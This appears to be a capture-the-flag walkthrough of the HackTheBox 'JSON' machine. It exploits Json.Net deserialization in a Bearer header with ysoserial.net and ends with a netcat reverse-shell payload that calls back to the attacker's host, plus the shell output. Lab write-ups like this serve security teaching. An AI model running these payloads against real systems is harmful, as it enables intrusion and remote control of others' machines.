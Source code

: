 # Exercise: Exploiting .NET deserialization on the box JSON

In this machine, an nmap scan reveals that it is a Windows box with FTP (port 21), HTTP (port 80) and SMB (port 139,445) running.

```bash
┌─[rin@parrot]─[~/boxes/JSON]
└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- json.htb -oA nmap/full-tcp
PORT STATE SERVICE VERSION
21/tcp open ftp FileZilla ftpd
| ftp-syst:
|_ SYST: UNIX emulated by FileZilla
80/tcp open http Microsoft IIS httpd 8.5
| http-methods:
| Supported Methods: GET HEAD OPTIONS TRACE
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Json HTB
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49156/tcp open msrpc Microsoft Windows RPC
49157/tcp open msrpc Microsoft Windows RPC
49158/tcp open msrpc Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: 
cpe:/o:microsoft:windows
```

The website on port 80 reveals a login page that takes the common credentials "admin" and "admin" as username and password.

If you turn on the Burp proxy in FoxyProxy but leave Intercept off in Burp Suite, all of the calls from the browser will go through the proxy and be available in the HTTP History tab. When you click submit after entering the username and password, the page does a POST request to the endpoint /api/token, providing the username and password that was entered. The response to this POST returns a status code of 202 (Accepted) and provides a Set-Cookie header:

```bash
Set-Cookie: OAuth2=eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkI
joiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZ
G1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=; expires=Thu, 22-Oct-2020 
08:44:50 GMT; path=/
```

The next request is a GET request for the page /index.html and the cookie OAuth2 is now set. After getting script and HTML files, a GET request is made to /api/Account. Interestingly, here a second header, "Bearer" is used with the same contents as the OAuth2 cookie contents:

```markup
GET /api/Account/ HTTP/1.1
Host: 10.10.10.158
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Bearer: eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmM
        jk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbi
        BIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=
DNT: 1
Connection: close
Referer: 
http://10.10.10.158/index.html

Cookie: OAuth2=eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMj
        EyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciB
        BZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=
```

This request returns details of the account:

```bash
{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3",
"Name":"User Admin HTB","Rol":"Administrator"}
```

Which is actually what you get if you take the Base64 in the Bearer header and decode it.. It is worth noting that the Bearer header suggests that this is Bearer Authentication which is defined as part of the OAuth 2.0 standard. However, normally, the header is actually formatted as:

```bash
Authentication: Bearer <token>
```

The token in this case would also be encrypted or at least cryptographically signed as per the standard and clearly it is not here.

To explore what the Bearer header does, if you change the content of the Bearer header by putting a non-numerical character in the Id field, say "1a" and the re-encode it using Base64. an error is returned by the application:

```bash
{"Message":"An error has occurred.",
"ExceptionMessage":"Cannot deserialize Json.Net Object",
"ExceptionType":"System.Exception","StackTrace":null}
```

Here you get a clue about a possible vulnerability. The message "Cannot deserialize Json.Net Object" suggests a deserialization attack may be possible.

There is a series of utilities called YSoSerial.Net ([https://github.com/pwntester/ysoserial.net\\](https://github.com/pwntester/ysoserial.net/)) that can be used to generate .NET deserialization attacks.

{% hint style="info" %}
You can download the latest release of the program&#x20;

[https://github.com/pwntester/ysoserial.net/releases/download/v1.34/ysoserial-1.34.zip\\](https://github.com/pwntester/ysoserial.net/releases/download/v1.34/ysoserial-1.34.zip/)
{% endhint %}

Using YSoSerial.Net, we can test that the vulnerability can be exploited by trying to ping back to our machine. Given that this is .NET, although it could be done on Parrot SOSec, it is easier to do this on a Windows VM. you can provide the following parameters to ysoserial.exe specifying the output as base64 and the command you want to run as a ping to our machine:

```bash
./ysoserial.exe -f Json.Net -g ObjectDataProvider \
-o base64 -c "ping -n 5 10.10.14.3"
```

Taking the output from this and putting it in the Bearer header, you get an exception from the server, but the pings come back:

```bash
┌──[✗]─[rin@parrot]─[~/boxes/JSON]
└──╼ $sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
15:00:46.782092 IP 10.10.10.158 > 10.10.14.3: ICMP echo request, id 1, seq 1, 
    length 40
15:00:46.782231 IP 10.10.14.3 > 10.10.10.158: ICMP echo reply, id 1, seq 1, 
    length 40
```

To get a reverse shell on the box, you can do as you did in Bankrobber and use an SMB share to give access to Netcat (nc.exe) and have a listener on our box.

Changing the ysoserial command to the following:

```bash
.\ysoserial.exe -f Json.Net -g ObjectDataProvider -o base64 \
-c "\10.10.14.3\share\nc64.exe 10.10.14.3 6001 -e cmd.exe"
```

We then get a reverse shell:

```bash
┌──[rin@parrot]─[~/boxes/JSON]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.158] 49780
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv>whoami
whoami
json\userpool
c:\windows\system32\inetsrv>
```

